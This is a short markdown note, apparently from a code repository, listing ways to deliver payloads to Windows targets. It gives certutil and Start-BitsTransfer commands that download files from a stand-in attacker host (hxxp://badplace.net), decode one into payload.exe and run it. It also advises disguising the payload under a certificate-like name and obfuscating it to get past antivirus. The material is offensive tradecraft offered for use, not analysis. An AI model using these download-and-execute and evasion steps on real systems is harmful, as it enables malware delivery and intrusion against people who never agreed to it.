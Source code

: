 # Ways to Deploy Payloads to OS Targets

## Windows

- Certutil:
  - Encode payload with base64
  - Name the payload something unassuming, such as ComodoRootCA.p12
  - Invoke CertUtil, similarly to `certutil.exe -urlcache -split -f hxxp://badplace.net/certs/ComodoRootCA.p12 ComodoRootCA.p12`
  - Use CertUtil to decode the payload: `certutil.exe -decode ComodoRootCA.p12 payload.exe`
  - Run the payload
  - Note that anti-virus tools are mostly wise to this, so you will need to obfuscate it carefully if this is the method you want to use
    - Example: my anti-virus decided that this file was infected, due to the command line examples above!
- `Start-BitsTransfer -Source hxxp://badplace.net/malware.exe -Destination C:\Users\Administrator\Run.exe`
  - Generally used for Windows updates